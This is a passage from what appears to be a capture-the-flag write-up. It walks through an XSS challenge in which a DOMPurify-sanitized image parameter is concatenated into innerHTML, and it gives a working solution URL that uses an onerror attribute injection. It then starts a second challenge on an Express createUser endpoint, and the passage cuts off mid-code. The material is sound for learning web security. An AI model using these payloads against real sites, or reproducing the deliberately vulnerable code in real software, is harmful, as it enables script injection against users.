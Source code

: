 ```
        // Using DOMPurify to sanitize user input!
        const url = DOMPurify.sanitize(imageParam);
        const image = "<img src=\"" + url + "\">";
        document.getElementById('image').innerHTML = image;
    </script>
</body>
</html>
```

the source of the image is taken from `image` parameter, then DOMPurity will sanitize HTML.  so the basic payload will not work here.

```
?image=x" <script>alert()</script>
```

however we can use event handlers like `onerror` to exploit the xss

<br />

**Solution:**

```
https://chal1.vercel.app/dashboard.html?image=x" onerror="alert('Wizer')
```



<br /><br />





### #2: Create a User Endpoint

**Goal:** Create an admin via API

**code:**

```
const express = require('express');
var bodyParser = require('body-parser');
const { inviteCode } = require('./secret');
const app = express();
app.use(bodyParser.json());
const log = console.log;

console.log = function(){
    log.apply(console, [new Date(), ...arguments]);
};

const PORT = 5001;

const LOG_JSON = 'JSON: ';
const LOG_RUNNING_ON_PORT = 'Running at Port %s';

function createAdmin(user) { }
function createUser(user) { }



app.post('/api/createUser', function(req,res) {    
    console.log('/api/createUser in API');
    console.log(LOG_JSON, req.body);

    let baseUser = { 'picture': 'default.png' }
    let user = null;
    try {
        user = req.body;
        if(user.isAdmin && user.inviteCode !== inviteCode) {
```